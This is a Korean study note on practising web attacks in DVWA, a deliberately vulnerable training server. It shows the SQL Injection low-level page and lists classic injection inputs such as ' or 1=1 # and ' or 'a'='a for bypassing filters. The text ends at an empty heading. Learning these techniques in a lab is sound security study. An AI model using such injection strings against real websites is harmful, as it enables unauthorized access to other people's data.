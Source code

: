 # DVMA

DVMA: Damn Vulnerable Web Application 의 약자.

웹 공격을 실습해 볼 수 있는 웹 서버. 다른 PC나 VMware에 설치하여 실습해보면 된다.

Security Level 을 설정하여 단계별로 실습해볼 수 있다. 처음에는 쉽게 설정해놓고 성공한다면 점차 Security Level을 높여서 연습해볼 수 있다. 단계: Low, Midium, High, Impossible

<br/><br/>

# SQL Injection

## Level: Low

![image-20220208111201009](../../assets/images/2022-02-08-web-secure/image-20220208111201009.png)

User ID에 자연수를 입력하여 Submit을 누르면 해당 사용자의 정보가 출력되는 간단한 페이지.

### 예상하는 sql 구문

SELECT * FROM ?? WHERE id = '';

### 공격 구문

#### 특수문자를 허용하는 경우

* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 1=1 #</span>';
* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 2>1 #</span>';
* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 1 #</span>';

#### 입력란에 '#'을 허용하지 않는 경우

* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 'a'='a</span>'; 

#### 입력란에 '='와 '#'을 허용하지 않는 경우
